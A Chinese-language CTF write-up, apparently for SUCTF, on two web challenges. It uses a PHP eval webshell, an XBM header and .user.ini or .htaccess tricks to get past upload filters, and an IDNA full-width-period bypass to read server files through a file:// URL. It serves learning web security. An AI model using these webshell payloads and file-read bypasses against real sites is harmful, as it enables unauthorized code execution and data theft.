


### checkin

打开题目，是文件上传，后台脚本为php


fuzz一下，发现需要绕过三个点：

​	1、文件内容中不能出现**<?**，出现及报错


​	2、绕过exif_imagetype()



​	3、黑名单验证，不能上传php文件



绕过方法如下

第一个可以使用以下一句话木马

```
<scirpt language="php">eval($_REQUEST[a]);</script>
```

第二个利用windows的copy命令合成图片马即可绕过，exif_imagetype()检查文件头

或者在文件最前面加上

```
#define test_height 1000
#define test_width 1000
```

服务器会识别为xbm文件

这里说一下什么是xbm文件

xbm格式，X Bit Map

```
在计算机图形学中，X Window系统使用X BitMap（XBM），一种纯文本二进制图像格式，用于存储X GUI中使用的光标和图标位图
XBM数据由一系列包含单色像素数据的静态无符号字符数组组成。当格式被普遍使用时，XBM通常出现在标题（.h文件）中，每个图像在标题中存储一个数组。以下C代码示例了一个XBM文件：
```

也就是用c代码来标识一个xbm文件，前两个#defines指定位图的高度和宽度（以像素为单位），比如以下xbm文件：

```
#define test_width 16
#define test_height 7
static char test_bits[] = {
0x13, 0x00, 0x15, 0x00, 0x93, 0xcd, 0x55, 0xa5, 0x93, 0xc5, 0x00, 0x80,
0x00, 0x60 };
```

所以我们只有在文件中加入头部，就可伪装成图片文件，绕过exif_imagetype()

第三步，怎么也绕不过，看来php文件这条路走不通。

一篇关于.user.ini的文章指明出路

[user.ini文件构成的PHP后门](https://wooyun.js.org/drops/user.ini文件构成的PHP后门.html)

根据文章的思路，我们需要上传.user.ini的文件，文件内容如下

```
#define test_width 16
#define test_height 7

auto_prepend_file=shell.jpg
```

再上传包含一句话木马的shell.jpg

```
#define test_width 16
#define test_height 7

<scirpt language="php">eval($_REQUEST[a]);</script>
```

然后php会搜索网站目录下的.ini文件，加载.ini文件中的配置，这样shell.jpg就好包含在php文件的头部。

经过测试，index.php文件并没有包含到shell.jpg,直接访问shell.jpg所在目录，就执行shell.jpg的php代码

后面再本地测试，发现.user.ini只要放在网站目录之下，就可以被搜索到，而想要php文件包含shell.jpg，就必须保持shell.jpg和php文件在同一目录下，也就是说，只有和shell.jpg在同一目录下的php文件才会包含shell.jpg。

所以最后shell.jpg的代码为

```
#define test_width 16
#define test_height 7

<scirpt language="php">system('cat /flag');</script>
```

访问所在目录就可以看到flag

扩展：

这里顺便说一下**.htaccess**文件**getshell**

**.htaccess**文件(或者"分布式配置文件"）,全称是Hypertext Access(超文本入口)。提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的[AllowOverride](https://baike.baidu.com/item/AllowOverride)指令来设置。[百度百科](https://baike.baidu.com/item/htaccess)

想要**Apache**支持**.htaccess**,需要在配置文件中写入一下指令

```
AllowOverride All	#开启支持.htaccess
AllowOverride None	#关闭
```

还需要在配置文件加入

```
LoadModule rewrite_module modules/mod_rewrite.so 	#有的版本默认开启
```

配置完成需要重启**Apache**

**.htaccess**有什么作用呢

概述来说，htaccess文件是[Apache](https://baike.baidu.com/item/Apache)服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页[301重定向](https://baike.baidu.com/item/301重定向)、自定义404错误页面、**改变文件扩展名**、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档，以及使用其他文件作为index文件等功能。

这里我们要特别关注一下，**改变文件扩展名**

如果我们在**.htaccess**中添加一下配置信息

```
<FilesMatch "shell.jpg">
  SetHandler application/x-httpd-php
</FilesMatch>
```

那**Apache**就会把当前目录下来含有**shell.jpg**解析为**php**文件


**shell.jpg.aaa**也可以解析


在**.htaccess**所在目录下级目录依旧可以解析


在**.htaccess**所在目录上级目录就不可以解析了


也可以在**.htaccess或Apache**配置文件中添加

```
AddType application/x-httpd-php .jpg
```

这样.jpg就会解析为php文件，两者效果一样。

原理其实也一样，**修改指定文件的Mini类型**

### pythonNginx

打开题目，给了部分源码
```python
@app.route('/getUrl', methods=['GET', 'POST']) 
def getUrl(): 
	url = request.args.get("url") 
	host = parse.urlparse(url).hostname 
	if host == 'suctf.cc': 
		return "我扌 your problem? 111" 
	parts = list(urlsplit(url)) 
	host = parts[1] 
	if host == 'suctf.cc': 
		return "我扌 your problem? 222 " + host 
	newhost = [] 
	for h in host.split('.'): 
		newhost.append(h.encode('idna').decode('utf-8')) 
		parts[1] = '.'.join(newhost) 
		#去掉 url 中的空格 
		finalUrl = urlunsplit(parts).split(' ')[0] 
		host = parse.urlparse(finalUrl).hostname 
		if host == 'suctf.cc': 
			return urllib.request.urlopen(finalUrl).read() 
		else: 
			return "我扌 your problem? 333"
```
直接复制修改一下代码
```python

from urllib.parse import urlparse,urlsplit,urlunsplit
import urllib

while(True):
	url = input('fuzz:')
	host = urllib.parse.urlparse(url).hostname
	print('host:' + str(host))
	parts = list(urlsplit(url))
	print('parse:',parts)
	host = parts[1]
	newhost = []
	for h in host.split('.'): 
		print("host.split('.'):",host.split('.'))
		newhost.append(h.encode('idna').decode('utf-8'))
		print("h.encode('idna').decode('utf-8'):",h.encode('idna').decode('utf-8'))
		print("newhost:",newhost)
		parts[1] = '.'.join(newhost)
		print("parts[1]:",parts[1])
		#去掉 url 中的空格 
		finalUrl = urlunsplit(parts).split(' ')[0]
		print("finalUrl:",urlunsplit(parts).split(' ')[0])
		host = urllib.parse.urlparse(finalUrl).hostname
		print("host:",urllib.parse.urlparse(finalUrl).hostname)
		print(host)
		if host == 'suctf.cc':
			print('ok')
		break
```
不断fuzz，发现中文 。（句号）可以编码为英文 . (句号)
```
fuzz:http://suctf。cc
host:suctf。cc
parse: ['http', 'suctf。cc', '', '', '']
host.split('.'): ['suctf。cc']
h.encode('idna').decode('utf-8'): suctf.cc
newhost: ['suctf.cc']
parts[1]: suctf.cc
finalUrl: http://suctf.cc
host: suctf.cc
suctf.cc
ok
```
从上面测试结果推测出现原因应该是这句代码
```
h.encode('idna').decode('utf-8')
```
猜测是吧中文字符转英文字符（其实不对）

然后一直http协议fuzz啥也没，看大佬的write up才知道是可以用file协议

为什么会 。 会变为 . ,具体原因在下面这个文档

[https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)

在nginx配置文件找到flag存放目录,Payload
```
http://47.111.59.243:9000/getUrl?url=file://suctf。cc/../../../usr/local/nginx/conf/nginx.conf
```

最后拿到flag的Payload
```
http://47.111.59.243:9000/getUrl?url=file://suctf。cc/../../../usr/fffffflag
```


